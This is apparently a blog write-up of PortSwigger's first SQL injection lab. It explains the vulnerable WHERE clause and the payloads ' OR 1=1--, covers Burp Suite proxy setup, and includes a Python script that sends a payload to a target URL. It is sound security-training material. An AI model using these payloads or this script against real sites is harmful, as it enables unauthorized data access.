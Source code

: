```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-4.png)

Lab #1 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Description

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Steps

Upon accessing the lab and filtering on the `Pets` category, I noticed a GET parameter named `category` in the URL.

To test the application’s behavior, I initially tried adding a single quote (`'`) by navigating to `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='`.

This resulted in an `Internal Server Error`, which confirms that the application is indeed vulnerable.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-1.png)

By adding a single quote (`'`) to the `category` parameter, the application executes the following query against the database:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

### Preparing a SQL injection Payload:

Let’s try replacing `'` with `'--`. The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`.

**Expected Query:**

```sql
SELECT * FROM products WHERE category = ''-- AND released = 1
```

URL: `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='--`

As we can observe, the error disappeared, and the page returned no products. Perfect!

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-2.png)

Next, let’s try `' OR 1=1`, which will return the result of the following query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- AND released = 1
```

The modified query will return all items where either the category is empty (`''`) or `1=1`. Since `1=1` is always true, the query will return all items.

This solves Lab #1! Congratulations.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-3.png)

However, we won’t stop here. Let’s go the extra mile and automate the SQLi payload. To begin, download Burp Suite Community Edition and ensure that the Proxy listener is enabled.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-6.png)

Download the FoxyProxy extension and add the Burp Suite proxy address and port.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-5.png)

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-7.png)

Enable the Burp proxy and navigate to the interface where Burp is running (`127.0.0.1:8080`). Save the CA certificate when prompted. ![](https://jawad.ca/images/sqli-lab01/sqli-lab1-10.png)

To prevent Firefox SSL errors when using Burp, import the certificate we just downloaded by going to `about:preferences#privacy` in Firefox.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-11.png)

We are now ready to intercept our HTTP(s) traffic through Burp. As shown below, the intercept is on, and we can observe the GET `/filter?category=param` request.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-8.png)

To automate this SQL injection payload, we can use the below Python script:

```
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		payload = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <payload> ; e.g www.example.com "1=1"' % sys.argv[0])  
		sys.exit(-1)  
  
uri = '/filter?category='  
r = requests.get(url + uri + payload, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in r.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
```

To test our script with the Lab’s temporary URL and the payload we initially tested (`' OR 1=1--`), you can use the following command:

```powershell
> python3 sqli-lab01.py https://0a9d00e603476b2480e1766400eb00da.web-security-academy.net "' or 1=1--"
```

et voilà! [Little bobby tables](https://xkcd.com/327/) would be very happy :-)

![](https://jawad.ca/images/sqli-lab01/exploits\_of\_a\_mom.png)
